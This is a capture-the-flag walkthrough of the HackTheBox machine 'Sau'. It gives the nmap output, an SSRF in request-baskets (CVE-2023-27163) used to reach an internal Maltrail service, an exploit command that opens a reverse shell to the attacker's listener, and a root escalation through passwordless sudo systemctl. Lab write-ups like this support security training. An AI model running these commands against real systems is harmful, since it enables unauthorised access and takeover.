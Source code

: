 ```yaml
---
title: "Sau - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Sau
![](https://kar0nx.github.io/assets/images/writeup/1ea2980b9dc2d11cf6a3f82f10ba8702.png)
## Reconnaissance

IP: 10.10.11.224
## NMAP

```
nmap -T4 -p- -A 10.10.11.224
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-30 14:55 UTC
Nmap scan report for 10.10.11.224
Host is up (0.030s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     http    Golang net/http server
| http-title: Request Baskets
|_Requested resource was /web
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 30 Aug 2025 14:56:06 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 30 Aug 2025 14:55:51 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 30 Aug 2025 14:55:51 GMT
|     Content-Length: 0
|   OfficeScan: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :                                                                                                                  
SF-Port55555-TCP:V=7.95%I=7%D=8/30%Time=68B310FA%P=x86_64-pc-linux-gnu%r(G                                                                     
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sat,\x2030\x20Aug\x20
SF:2025\x2014:55:51\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sat,\x2030\x20Aug\x20
SF:2025\x2014:55:51\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20
SF:Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Co
SF:ntent-Type-Options:\x20nosniff\r\nDate:\x20Sat,\x2030\x20Aug\x202025\x2
SF:014:56:06\x20GMT\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20n
SF:ame;\x20the\x20name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\
SF:-_\\\.\]{1,250}\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20cl
SF:ose\r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCon
SF:nection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Socks5,67,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=ut
SF:f-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(OfficeScan
SF:,A3,"HTTP/1\.1\x20400\x20Bad\x20Request:\x20missing\x20required\x20Host
SF:\x20header\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnecti
SF:on:\x20close\r\n\r\n400\x20Bad\x20Request:\x20missing\x20required\x20Ho
SF:st\x20header");
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   29.99 ms 10.10.14.1
2   30.18 ms 10.10.11.224

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.91 seconds
```

## Website
### Site

##### Port 55555

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830165801.png)

On bottom we can see Powered by request-baskets version 1.2.1

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830170458.png)

Searching google I found that version is vulnerable to CVE-2023-27163
https://nvd.nist.gov/vuln/detail/CVE-2023-27163

PoC: https://github.com/madhavmehndiratta/CVE-2023-27163

```
python3 CVE-2023-27163.py http://10.10.11.224:55555 http://127.0.0.1:80
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830171415.png)

ok we are redirected to local port 80 and we see destroyed site powered by Maltrail (v0.53), searching for exploits

```
http://10.10.11.224:55555/nlgefe
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830171434.png)

## Gaining Access

 I found RCE:

https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py

```
python3 es.py 10.10.14.8 4444 http://10.10.11.224:55555/nlgefe
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830174106.png)

using PoC we got reverse shell:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830174146.png)

Upgrade shell to TTY

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege Escalation

Runing sudo -l we know that user puma may run systemctl without password, check for it in gtfobins

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830174430.png)

https://gtfobins.github.io/gtfobins/systemctl/

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830175841.png)

We have root access now grab root flag.